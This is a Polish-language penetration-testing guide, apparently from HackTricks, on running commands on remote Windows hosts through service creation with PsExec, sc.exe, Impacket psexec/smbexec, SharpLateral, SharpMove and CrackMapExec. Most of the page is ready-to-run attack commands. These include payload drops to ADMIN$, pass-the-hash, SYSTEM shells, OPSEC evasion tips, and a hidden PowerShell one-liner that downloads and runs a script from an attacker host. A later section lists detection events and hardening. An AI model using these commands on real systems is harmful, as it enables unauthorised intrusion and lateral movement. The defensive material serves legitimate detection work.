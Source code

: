 # PsExec/Winexec/ScExec/SMBExec

{{#include ../../banners/hacktricks-training.md}}

## Jak to działa

Te techniki wykorzystują Menedżera Kontroli Usług Windows (SCM) zdalnie przez SMB/RPC do wykonywania poleceń na docelowym hoście. Typowy przebieg to:

1. Uwierzytelnienie do celu i dostęp do udziału ADMIN$ przez SMB (TCP/445).
2. Skopiowanie pliku wykonywalnego lub określenie linii poleceń LOLBAS, którą usługa uruchomi.
3. Zdalne utworzenie usługi za pomocą SCM (MS-SCMR przez \PIPE\svcctl) wskazującej na to polecenie lub binarny plik.
4. Uruchomienie usługi w celu wykonania ładunku i opcjonalnie przechwycenie stdin/stdout przez nazwany potok.
5. Zatrzymanie usługi i sprzątanie (usunięcie usługi i wszelkich zrzucanych binarnych plików).

Wymagania/wymogi wstępne:
- Lokalny administrator na docelowym hoście (SeCreateServicePrivilege) lub wyraźne prawa do tworzenia usług na docelowym hoście.
- SMB (445) dostępny i udział ADMIN$ dostępny; zdalne zarządzanie usługami dozwolone przez zaporę hosta.
- Ograniczenia UAC dla zdalnych: w przypadku lokalnych kont, filtrowanie tokenów może blokować dostęp administratora przez sieć, chyba że używa się wbudowanego Administratora lub LocalAccountTokenFilterPolicy=1.
- Kerberos vs NTLM: użycie nazwy hosta/FQDN umożliwia Kerberos; łączenie przez IP często wraca do NTLM (i może być zablokowane w wzmocnionych środowiskach).

### Ręczne ScExec/WinExec za pomocą sc.exe

Poniżej przedstawiono minimalne podejście do tworzenia usługi. Obraz usługi może być zrzucanym EXE lub LOLBAS, takim jak cmd.exe lub powershell.exe.
```cmd
:: Execute a one-liner without dropping a binary
sc.exe \\TARGET create HTSvc binPath= "cmd.exe /c whoami > C:\\Windows\\Temp\\o.txt" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc

:: Drop a payload to ADMIN$ and execute it (example path)
copy payload.exe \\TARGET\ADMIN$\Temp\payload.exe
sc.exe \\TARGET create HTSvc binPath= "C:\\Windows\\Temp\\payload.exe" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc
```
Notatki:
- Oczekuj błędu timeout przy uruchamianiu EXE, które nie jest usługą; wykonanie nadal się odbywa.
- Aby pozostać bardziej przyjaznym dla OPSEC, preferuj polecenia bezplikowe (cmd /c, powershell -enc) lub usuń zrzucane artefakty.

Znajdź bardziej szczegółowe kroki w: https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/

## Narzędzia i przykłady

### Sysinternals PsExec.exe

- Klasyczne narzędzie administracyjne, które używa SMB do zrzucania PSEXESVC.exe w ADMIN$, instaluje tymczasową usługę (domyślna nazwa PSEXESVC) i pośredniczy w I/O przez nazwane potoki.
- Przykłady użycia:
```cmd
:: Interactive SYSTEM shell on remote host
PsExec64.exe -accepteula \\HOST -s -i cmd.exe

:: Run a command as a specific domain user
PsExec64.exe -accepteula \\HOST -u DOMAIN\user -p 'Passw0rd!' cmd.exe /c whoami /all

:: Customize the service name for OPSEC (-r)
PsExec64.exe -accepteula \\HOST -r WinSvc$ -s cmd.exe /c ipconfig
```
- Możesz uruchomić bezpośrednio z Sysinternals Live za pomocą WebDAV:
```cmd
\\live.sysinternals.com\tools\PsExec64.exe -accepteula \\HOST -s cmd.exe /c whoami
```
OPSEC
- Zostawia zdarzenia instalacji/odinstalacji usługi (nazwa usługi często PSEXESVC, chyba że użyto -r) i tworzy C:\Windows\PSEXESVC.exe podczas wykonywania.

### Impacket psexec.py (podobny do PsExec)

- Używa osadzonej usługi podobnej do RemCom. Zrzuca tymczasowy plik binarny usługi (zwykle z losową nazwą) przez ADMIN$, tworzy usługę (domyślnie często RemComSvc) i przekazuje I/O przez nazwany potok.
```bash
# Password auth
psexec.py DOMAIN/user:Password@HOST cmd.exe

# Pass-the-Hash
psexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST cmd.exe

# Kerberos (use tickets in KRB5CCNAME)
psexec.py -k -no-pass -dc-ip 10.0.0.10 DOMAIN/user@host.domain.local cmd.exe

# Change service name and output encoding
psexec.py -service-name HTSvc -codec utf-8 DOMAIN/user:Password@HOST powershell -nop -w hidden -c "iwr http://10.10.10.1/a.ps1|iex"
```
Artefakty
- Tymczasowy EXE w C:\Windows\ (losowe 8 znaków). Nazwa usługi domyślnie to RemComSvc, chyba że zostanie nadpisana.

### Impacket smbexec.py (SMBExec)

- Tworzy tymczasową usługę, która uruchamia cmd.exe i używa nazwanej rury do I/O. Zazwyczaj unika zrzucania pełnego ładunku EXE; wykonanie polecenia jest półinteraktywne.
```bash
smbexec.py DOMAIN/user:Password@HOST
smbexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST
```
### SharpLateral i SharpMove

- [SharpLateral](https://github.com/mertdas/SharpLateral) (C#) implementuje kilka metod ruchu lateralnego, w tym exec oparty na usłudze.
```cmd
SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName
```
- [SharpMove](https://github.com/0xthirteen/SharpMove) zawiera modyfikację/tworzenie usługi w celu zdalnego wykonania polecenia.
```cmd
SharpMove.exe action=modsvc computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true servicename=TestService
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```
- Możesz również użyć CrackMapExec do wykonania za pomocą różnych backendów (psexec/smbexec/wmiexec):
```bash
cme smb HOST -u USER -p PASS -x "whoami" --exec-method psexec
cme smb HOST -u USER -H NTHASH -x "ipconfig /all" --exec-method smbexec
```
## OPSEC, wykrywanie i artefakty

Typowe artefakty hosta/sieci przy użyciu technik podobnych do PsExec:
- Zdarzenia zabezpieczeń 4624 (Typ logowania 3) i 4672 (Specjalne uprawnienia) na docelowym koncie administratora.
- Zdarzenia zabezpieczeń 5140/5145 dotyczące udostępniania plików i szczegółowe zdarzenia udostępniania plików pokazujące dostęp do ADMIN$ oraz tworzenie/zapisywanie binariów usług (np. PSEXESVC.exe lub losowe 8-znakowe .exe).
- Instalacja usługi zabezpieczeń 7045 na docelowym: nazwy usług takie jak PSEXESVC, RemComSvc lub niestandardowe (-r / -service-name).
- Sysmon 1 (Utworzenie procesu) dla services.exe lub obrazu usługi, 3 (Połączenie sieciowe), 11 (Utworzenie pliku) w C:\Windows\, 17/18 (Rura utworzona/połączona) dla rur takich jak \\.\pipe\psexesvc, \\.\pipe\remcom_*, lub zrandomizowane odpowiedniki.
- Artefakt rejestru dla EULA Sysinternals: HKCU\Software\Sysinternals\PsExec\EulaAccepted=0x1 na hoście operatora (jeśli nie jest tłumione).

Pomysły na polowanie
- Powiadomienie o instalacjach usług, gdzie ImagePath zawiera cmd.exe /c, powershell.exe lub lokalizacje TEMP.
- Szukaj tworzenia procesów, gdzie ParentImage to C:\Windows\PSEXESVC.exe lub dzieci services.exe działających jako LOCAL SYSTEM wykonujących powłokę.
- Oznaczaj nazwane rury kończące się na -stdin/-stdout/-stderr lub znane nazwy rur klonów PsExec.

## Rozwiązywanie typowych problemów
- Odmowa dostępu (5) podczas tworzenia usług: brak prawdziwego lokalnego administratora, ograniczenia UAC dla lokalnych kont lub ochrona przed manipulacją EDR na ścieżce binariów usługi.
- Ścieżka sieciowa nie została znaleziona (53) lub nie można połączyć się z ADMIN$: zapora blokująca SMB/RPC lub wyłączone udostępnianie administratora.
- Kerberos nie działa, ale NTLM jest zablokowany: połącz się używając nazwy hosta/FQDN (nie IP), upewnij się, że SPN są poprawne, lub dostarcz -k/-no-pass z biletami przy użyciu Impacket.
- Rozpoczęcie usługi przekracza czas, ale ładunek działał: oczekiwane, jeśli nie jest to prawdziwy plik binarny usługi; przechwyć wyjście do pliku lub użyj smbexec do bieżącego I/O.

## Notatki dotyczące zabezpieczeń (nowoczesne zmiany)
- Windows 11 24H2 i Windows Server 2025 wymagają podpisywania SMB domyślnie dla połączeń wychodzących (i Windows 11 przychodzących). Nie wpływa to na legalne użycie PsExec z ważnymi poświadczeniami, ale zapobiega nadużywaniu niepodpisanego SMB relay i może wpłynąć na urządzenia, które nie obsługują podpisywania.
- Nowe blokowanie NTLM klienta SMB (Windows 11 24H2/Server 2025) może uniemożliwić fallback NTLM przy łączeniu przez IP lub do serwerów nie-Kerberos. W zabezpieczonych środowiskach to złamie oparte na NTLM PsExec/SMBExec; użyj Kerberos (nazwa hosta/FQDN) lub skonfiguruj wyjątki, jeśli jest to rzeczywiście potrzebne.
- Zasada najmniejszych uprawnień: minimalizuj członkostwo lokalnych administratorów, preferuj Just-in-Time/Just-Enough Admin, egzekwuj LAPS i monitoruj/powiadamiaj o instalacjach usług 7045.

## Zobacz także

- WMI-based remote exec (często bardziej bezplikowe):
{{#ref}}
./wmiexec.md
{{#endref}}

- WinRM-based remote exec:
{{#ref}}
./winrm.md
{{#endref}}



## Odniesienia

- PsExec - Sysinternals | Microsoft Learn: https://learn.microsoft.com/sysinternals/downloads/psexec
- Zabezpieczenia SMB w Windows Server 2025 i Windows 11 (podpisywanie domyślnie, blokowanie NTLM): https://techcommunity.microsoft.com/blog/filecab/smb-security-hardening-in-windows-server-2025--windows-11/4226591
{{#include ../../banners/hacktricks-training.md}}
